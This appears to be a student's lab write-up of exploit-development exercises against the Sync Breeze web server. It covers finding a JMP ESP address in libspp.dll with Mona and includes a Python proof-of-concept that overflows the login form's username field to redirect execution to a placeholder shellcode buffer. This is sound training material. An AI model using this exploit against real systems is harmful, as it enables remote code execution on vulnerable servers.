





### 11.2.7.1 Exercises
#### 1. Locate the JMP ESP that is usable in the exploit.

Use Mona python script to search view the libraries for synbreeze.



Selected the libspp.dll and searched it for a JMP ESP instruction.



Verified that this memory address does have JMP ESP by following it in the disassembler:



#### 2. Update your PoC to include the discovered JMP ESP, set a breakpoint on it, and follow the execution to the placeholder shellcode.

PoC Code:

```python
#!/usr/bin/python
import socket

try:        
    print "\nSending evil buffer....."

    filler = "A" * 780
    eip  = "\x83\x0c\x09\x10"
    offset = "C" * 4
    codebuffer = "D" * (1500 -len(filler) - len(eip) - len(offset))
    inputBuffer = filler + eip + offset + codebuffer

    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.216.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://192.168.216.10/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"

    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        
    s.connect(("192.168.216.10", 80))
    s.send(buffer)
        
    s.close()
    print "\Done!"
except:
    print "\nCould not connect!"
```

Ran code, execution paused at breakpoint with EIP pointing to our JMP ESP command:



Stepped into JMP ESP to show our next instruction is at our shellcode placeholder (DDDD)

